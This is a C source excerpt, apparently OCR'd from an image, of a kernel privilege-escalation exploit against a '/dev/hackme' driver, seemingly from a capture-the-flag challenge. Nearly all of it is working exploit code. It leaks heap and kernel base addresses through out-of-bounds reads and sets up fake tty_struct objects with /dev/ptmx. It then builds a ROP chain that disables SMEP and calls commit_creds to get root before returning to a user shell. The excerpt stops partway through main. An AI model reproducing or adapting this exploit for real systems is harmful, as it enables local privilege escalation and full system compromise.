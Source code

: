     
    int main()
    {
    	save_status();
    
    	char buf[0x1000] = {0};
    	size_t fake_tty_struct[4] = {0};
    	size_t fake_tty_operations[35] = {0};
    
    	fd = open("/dev/hackme",0);
    	if(fd < 0)
    	{
    		puts("[-] open file error");
    		sleep(3);
    		exit(0);
    	}
    
    	add(0, 0x2e0, buf); // 0
    	add(1, 0x2e0, buf); // 1
    	add(2, 0x100, buf); // 2
    	add(3, 0x100, buf); // 3
    	delete(0);
    	delete(2);
    
    	show(3, 0x100, -0x100, buf);
    	size_t heap_addr = ((size_t *)buf)[0] - 0x200;
    	printf("[+] heap_addr=> 0x%lx\n", heap_addr);
    	
    	int fd_tty = open("/dev/ptmx",O_RDWR | O_NOCTTY);
    	if(fd_tty < 0)
    	{
    		puts("[-] open ptmx error");
    		sleep(3);
    		exit(0);
    	}
    	
    	show(1, 0x400, -0x400, buf);
    	vmlinux_base = ((size_t *)buf)[3] - 0x625d80;
    	printf("[+] vmlinux_base=> 0x%lx\n", vmlinux_base);
    	off = vmlinux_base - raw_vmlinux_base;
    	commit_creds = off + 0xffffffff8104d220;
    	prepare_kernel_cred = off + 0xffffffff8104d3d0;
    
    	int i = 0;
    	rop[i++] = off + 0xffffffff8101b5a1; // pop rax; ret;
    	rop[i++] = 0x6f0;
    	rop[i++] = off + 0xffffffff8100252b; // mov cr4, rax; push rcx; popfq; pop rbp; ret;
    	rop[i++] = 0;
    	rop[i++] = (size_t)get_root;
    	rop[i++] = off + 0xffffffff81200c2e; // swapgs; popfq; pop rbp; ret; 
    	rop[i++] = 0;
    	rop[i++] = 0;
    	rop[i++] = off + 0xffffffff81019356; // iretq; pop rbp; ret;
    	rop[i++] = (size_t)get_shell;
    	rop[i++] = user_cs;
    	rop[i++] = user_rflags;
    	rop[i++] = user_sp;
    	rop[i++] = user_ss;
    	